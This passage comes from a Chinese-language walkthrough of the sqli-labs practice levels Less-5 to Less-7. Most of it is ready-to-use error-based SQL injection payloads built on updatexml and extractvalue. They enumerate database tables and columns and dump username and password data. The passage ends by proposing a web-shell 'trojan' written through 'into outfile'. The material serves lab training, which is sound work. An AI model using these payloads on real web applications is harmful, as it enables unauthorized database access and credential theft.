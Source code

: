 把`database()`函数位置换成select子句，爆表

```sql
?id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)%23
```


爆字段

```sql
?id=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database()),0x7e),1)%23
```

爆数据

```sql
?id=1' and updatexml(1,concat(0x7e,(select group_concat(username,password) from users),0x7e),1)%23
```

尝试使用`extractvalue()`、`floor()`函数

`extractvalue()`函数和`updatexml()`函数使用类似，参数个数不同

```sql
slect username,password from users where id = 1 and extractvalue(1,0x7e);
```

在这里，`extractvalue()`函数第二个参数使用了错误的参数`0x7e`，报错。可以只是`concat()`函数，使用子查询获取想要的内容，拼接上`0x7e`，把子查询结果带出来

![7](/medias/sqli-labs/7.png)

爆库

```sql
?id=0' and extractvalue(1,concat(0x7e,database(),0x7e))%23
```

![8](/medias/sqli-labs/8.png)

另外，`XPATH syntax error`也算是`updatexml`、`extractvalue`因为XPATH报错的一个特征吧


## Less-6

和上一关less-5相同，换成了`"`双引号类型

上面的盲注脚本和报错注入稍微修改还能用

![11](/medias/sqli-labs/11.png)

## Less-7



### 读写文件

这题提示需要`use outfile`，没有回显，要把数据写入到文件里，可以写入一个木马
